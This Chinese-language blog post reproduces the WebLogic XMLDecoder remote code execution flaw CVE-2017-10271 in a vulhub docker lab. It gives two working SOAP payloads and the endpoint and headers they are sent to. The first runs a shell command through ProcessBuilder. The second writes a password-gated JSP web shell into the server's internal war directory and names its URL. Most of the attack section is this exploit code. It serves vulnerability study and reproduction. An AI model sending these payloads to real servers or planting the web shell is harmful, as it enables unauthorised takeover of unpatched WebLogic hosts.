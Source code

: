 ```yaml
---
title: Weblogic 0day 复现
date: 2017-12-22 15:43:02
tags: [vul,sec,weblogic,0day]
categories: Security
---
```


最近不断听到消息，大量Weblogic主机被挂挖矿病毒，起初以为是利用之前反序列化漏洞(CVE-2017-3248)，但是团队内部从受害主机捕获的攻击代码来看，这次是针对WebLogic的WLS组件，利用xmldecoder反序列漏洞进行的RCE攻击。目前官方也给出了此次漏洞的cve[CVE-2017-10271](https://www.cvedetails.com/cve/CVE-2017-10271/)

下面我们来复现一下此次的漏洞
#### 0x01 环境准备
我们选择docker来快速搭建漏洞环境，此次漏洞受影响的版本是10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 和 12.2.1.2.0，我们选择10.3.6来复现

在P神的[vulhub](https://github.com/vulhub/vulhub)项目中正好存在weblogic环境，看了下版本也在受影响范围之内，所以我们选择vulhub的[weblogic](https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf)镜像

克隆项目，进入weblogic目录，执行
```
docker-compose build
docker-compose up -d
```
此时会创建并运行两个容器，分别是`vulhub/weblogic`和`vulhub/weblogic`,
如下图
![containers](https://ob5vt1k7f.qnssl.com/gbF5V)

访问7001端口，weblogic已经成功运行

#### 0x02 PoC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>calc</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
向`/wls-wsat/CoordinatorPortType`发起一个POST请求，body部分为上面的内容，修改`Content-Type`为`text/xml`

服务器返回
```
<faultcode>S:Server</faultcode>
<faultstring>0</faultstring>
```
说明执行成功
![response](https://ob5vt1k7f.qnssl.com/yn2qT)
![reverse shell](http://ob5vt1k7f.qnssl.com/YOZ6L)

#### 0x03
另外还有直接getshell的PoC:
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
                <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string><void method="println">
                    <string><![CDATA[<%if("023".equals(request.getParameter("pwd"))){  
                        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
                        int a = -1;  
                        byte[] b = new byte[2048];  
                        out.print("<pre>");  
                        while((a=in.read(b))!=-1){  
                            out.println(new String(b));  
                        }  
                        out.print("</pre>");} %>]]></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
会在`tmp/_WL_internal`下`bea_wls9_async_response`、`bea_wls_internal`和`uddiexplorer`目录中的war包下创建a.jsp文件，具体路径可自己选择，对应的web路径是`http://x.x.x.x:7001/bea_wls_internal/a.jsp`


目前看到PoC的变换还有好几种，甚至出现了绕过官方补丁的版本，后续应该会逐渐放出的。
